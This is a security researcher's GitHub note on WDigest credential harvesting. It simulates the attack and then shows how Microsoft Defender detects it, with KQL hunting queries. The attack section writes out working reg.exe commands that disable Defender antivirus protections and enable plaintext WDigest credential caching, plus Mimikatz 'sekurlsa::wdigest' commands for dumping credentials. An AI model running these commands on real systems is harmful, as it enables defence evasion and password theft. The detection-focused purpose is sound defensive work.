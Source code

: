 # Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - Detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## Detection
After simulating a WDigest credential harvesting attack, let's examine how this attack is mapped into a single incident in Microsoft 365 Defender portal.

All the attack techniques, from disabling antivirus to executing Mimikatz, were detected by Microsoft Defender for Endpoint, generating 11 alerts. Additionally, Threat Analytics provides insights related to Mimikatz and WDigest credential harvesting.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/1c9c3f9d-4ff2-4269-b67f-f6d6a67f72b3)

In the incident page, you might see a number of alerts, related assets, MITRE techniques, and more. 
At the same time, I'd like to highlight some alerts from the simulation as shown below.

#### ***Alert : Microsoft Defender Antivirus protection turned off***
A protection feature in Microsoft Defender Antivirus has been turned off. An attacker might be trying to evade detection.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/dde8b17c-38bc-4847-87fc-d8940ebc8313)

#### ***Alert : WDigest configuration change***
An attempt to turn on the WDigest authentication provider through the registry was observed.
If the attempt is successful, WDigest will load on the next restart and begin to store credentials as plaintext in LSASS process memory. An attacker might be attempting to collect those credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/8065422f-a296-46a3-82a0-71a0997108db)

#### ***Alert : Malicious credential theft tool execution detected***
A known credential theft tool execution command line was detected. Either the process itself or its command line indicated an intent to dump users' credentials, keys, plain-text passwords and more.
> [!Note]
> The two mimikatz commands (mimikatz # privilege::debug, mimikatz # sekurlsa::wdigest) which I simulated on the device were detected by Microsoft Defender for Endpoint. Also, an alert - 'Mimikatz credential theft tool' was triggered when downloading Mimikatz on the device.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/d4325269-853e-4488-837d-2a56e77b0928)


## Threat Hunting
For threat hunting purposes, here are some KQL queries to track activities like disabling antivirus, changing WDigest configurations, and executing Mimikatz tool.

#### Defender Antivirus configuration
This query will hunt for registry key activities related to Microsoft Defender Antivirus.

```kql
DeviceRegistryEvents
| where Timestamp > ago(30d)
| where RegistryKey has @"HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender"
| project-reorder Timestamp, DeviceId, DeviceName, ActionType, RegistryKey, RegistryValueType, RegistryValueName, RegistryValueData
| sort by Timestamp desc 
```

#### WDigest configuration change
This query helps identify attempts to enable WDigest credentiall caching through the registry.

```kql
union DeviceRegistryEvents, DeviceProcessEvents
// Find attempts to turn on WDigest credential caching
| where RegistryKey contains "wdigest" and RegistryValueName == "UseLogonCredential" and RegistryValueData == "1" or 
// Find processes created with commandlines that attempt to turn on WDigest caching
ProcessCommandLine has "WDigest" and ProcessCommandLine has "UseLogonCredential" and ProcessCommandLine has "dword" and ProcessCommandLine has "1"
| project Timestamp, DeviceName, PreviousRegistryValueData,  
RegistryKey, RegistryValueName, RegistryValueData, FileName, ProcessCommandLine, 
InitiatingProcessAccountName, InitiatingProcessFileName, 
InitiatingProcessCommandLine, InitiatingProcessParentFileName
```
> **Source** : WDigest credential harvesting, Threat Analytics in Microsoft 365 Defender

#### Mimikatz CommandLine
This query helps display all unique Mimikatz command-line activities for each device.

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName in~ ("powershell.exe","powershell_ise.exe", "mimikatz.exe")
| where ProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump") or InitiatingProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump")
| summarize make_set(ProcessCommandLine) by DeviceId, DeviceName
```

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
